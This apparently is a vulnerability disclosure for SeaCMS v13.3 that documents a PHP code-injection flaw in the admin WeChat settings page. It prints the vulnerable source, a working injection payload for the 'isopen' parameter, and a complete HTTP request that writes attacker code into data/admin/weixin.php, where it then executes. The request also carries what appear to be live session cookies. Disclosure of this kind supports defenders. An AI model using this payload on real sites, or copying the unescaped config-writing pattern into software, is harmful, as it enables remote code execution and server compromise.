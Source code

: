 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
![](./public/1.png)

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Exploitation

The latest version v13.3 of SeaCMS contains a command execution vulnerability.  
The vulnerability is in the `0omeqd\admin_weixin.php` file, where the `isopen` parameter is vulnerable to PHP code concatenation.  
![](./public/3.png)

The full source code of this file is as follows:
```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__) . "/config.php");
CheckPurview();
if ($action == "set") {
	$isopen = $_POST['isopen'];
	$title = htmlspecialchars($_POST['title']);
	$url = $_POST['url'];
	$ckmov_url = $_POST['ckmov_url'];
	$follow = htmlspecialchars($_POST['follow']);
	$noc = htmlspecialchars($_POST['noc']);
	$dpic = $_POST['dpic'];
	$help = htmlspecialchars($_POST['help']);
	$topage = $_POST['topage'];
	$sql_num = intval($_POST['sql_num']);
	$dwz = $_POST['dwz'];
	$dwztoken = $_POST['dwztoken'];

	$msg1a = $_POST['msg1a'];
	$msg1b = $_POST['msg1b'];
	$msg2a = $_POST['msg2a'];
	$msg2b = $_POST['msg2b'];
	$msg3a = $_POST['msg3a'];
	$msg3b = $_POST['msg3b'];
	$msg4a = $_POST['msg4a'];
	$msg4b = $_POST['msg4b'];
	$msg5a = $_POST['msg5a'];
	$msg5b = $_POST['msg5b'];

	$open = fopen("../data/admin/weixin.php", "w");
	$str = '<?php  ';

	$str .= 'define("isopen", "';
	$str .= "$isopen";
	$str .= '"); ';
	$str .= 'define("title", "';
	$str .= "$title";
	$str .= '"); ';

	$str .= 'define("url", "';
	$str .= "$url";
	$str .= '"); ';

	$str .= 'define("ckmov_url", "';
	$str .= "$ckmov_url";
	$str .= '"); ';

	$str .= 'define("follow", "';
	$str .= "$follow";
	$str .= '"); ';

	$str .= 'define("noc", "';
	$str .= "$noc";
	$str .= '"); ';

	$str .= 'define("dpic", "';
	$str .= "$dpic";
	$str .= '"); ';

	$str .= 'define("help", "';
	$str .= "$help";
	$str .= '"); ';

	$str .= 'define("topage", "';
	$str .= "$topage";
	$str .= '"); ';

	$str .= 'define("dwz", "';
	$str .= "$dwz";
	$str .= '"); ';

	$str .= 'define("dwztoken", "';
	$str .= "$dwztoken";
	$str .= '"); ';

	$str .= 'define("sql_num", "';
	$str .= "$sql_num";
	$str .= '"); ';

	$str .= 'define("msg1a", "';
	$str .= "$msg1a";
	$str .= '"); ';
	$str .= 'define("msg1b", "';
	$str .= "$msg1b";
	$str .= '"); ';

	$str .= 'define("msg2a", "';
	$str .= "$msg2a";
	$str .= '"); ';
	$str .= 'define("msg2b", "';
	$str .= "$msg2b";
	$str .= '"); ';

	$str .= 'define("msg3a", "';
	$str .= "$msg3a";
	$str .= '"); ';
	$str .= 'define("msg3b", "';
	$str .= "$msg3b";
	$str .= '"); ';

	$str .= 'define("msg4a", "';
	$str .= "$msg4a";
	$str .= '"); ';
	$str .= 'define("msg4b", "';
	$str .= "$msg4b";
	$str .= '"); ';

	$str .= 'define("msg5a", "';
	$str .= "$msg5a";
	$str .= '"); ';
	$str .= 'define("msg5b", "';
	$str .= "$msg5b";
	$str .= '"); ';

	$str .= " ?>";
	fwrite($open, $str);
	fclose($open);
	ShowMsg("Settings saved successfully!", "admin_weixin.php");
	exit;
}
```

In the web page, this is part of the system's WeChat official account settings in the backend. We click "Confirm" and intercept the request using a proxy tool.
![](./public/4.png)

We send the `isopen` parameter and inject PHP code. The payload is as follows (note that the request needs to be URL-encoded):
```r
isopen=n");phpinfo();define("isopen", "n
```
![](./public/5.png)

The complete HTTP request is as follows:
```http
POST /0omeqd/admin_weixin.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1216
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_weixin.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

isopen=n")%3bphpinfo()%3bdefine("isopen",+"n&url=https%3A%2F%2Fwww.seacms.com&title=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86&ckmov_url=https%3A%2F%2Fwww.seacms.com%2Fvip.php%3Furl%3D+&dpic=https%3A%2F%2Fwww.seacms.com%2Fapi%2Fwx.jpg&follow=%E6%84%9F%E8%B0%A2%E6%82%A8%E7%9A%84%E5%85%B

3%E6%B3%A8%E3%80%82&noc=%E6%9A%82%E6%97%A0%E4%BD%A0%E8%A6%81%E7%9A%84%E5%86%85%E5%AE%B9%E3%80%82&help=%E8%BF%99%E6%98%AF%E5%B8%AE%E5%8A%A9%E4%BF%A1%E6%81%AF%E3%80%82&topage=d&dwz=n&dwztoken=dwztoken&sql_num=15&msg1a=%E5%85%B3%E9%94%AE%E8%AF%8D1&msg1b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B91&msg2a=%E5%85%B3%E9%94%AE%E8%AF%8D2&msg2b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B92%3Ca+href%3D%27http%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%E6%B5%8B%E8%AF%95%3C%2Fa%3E%EF%BC%8C%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9D%9F%E3%80%82&msg3a=%E5%85%B3%E9%94%AE%E8%AF%8D3&msg3b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B93&msg4a=%E5%85%B3%E9%94%AE%E8%AF%8D4&msg4b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B94&msg5a=%E5%85%B3%E9%94%AE%E8%AF%8D5&msg5b=%3Ca+href%3D%27https%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%3C%2Fa%3E
```

Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![](./public/6.png)

![](./public/7.png)

After accessing the PHP path, the injected PHP code is successfully executed:
```r
data/admin/weixin.php
```
![](./public/8.png)
